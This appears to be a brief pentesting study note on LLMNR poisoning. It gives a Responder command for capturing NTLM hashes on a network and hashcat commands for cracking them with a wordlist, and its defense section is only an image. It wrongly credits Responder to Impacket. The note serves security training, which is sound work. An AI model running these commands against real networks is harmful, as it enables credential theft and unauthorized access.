 # LLMNR Poisoning

## What is LLMNR

![image](https://user-images.githubusercontent.com/96747355/167956823-a8f3ac8f-e971-463e-8c67-ba26f5f6e774.png)  
![image](https://user-images.githubusercontent.com/96747355/167956838-6185b47d-dfc8-4cb1-9a4e-39814a7a795b.png)  
*Source: TCM Security Academy*

## Responder

- [Impacket](https://github.com/SecureAuthCorp/impacket): tool to abuse LLMNR:  
Best to run first thing in the morning  
```responder -I eth0 -rdwv```
And when there will be activity in the network we will be able to get hashes

## Hascat

- We use hashcat to crack the hashes we got previously
- When looking for a module in hascat we can grep on the hash we need:
```hashcat --help | grep NTLM```
- Command
```hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt```

## LLMNR Poisoning Defense

![image](https://user-images.githubusercontent.com/96747355/167956945-7978a93c-5fdf-425a-90e6-87baed015c74.png)  
*Source: TCM Security Academy*
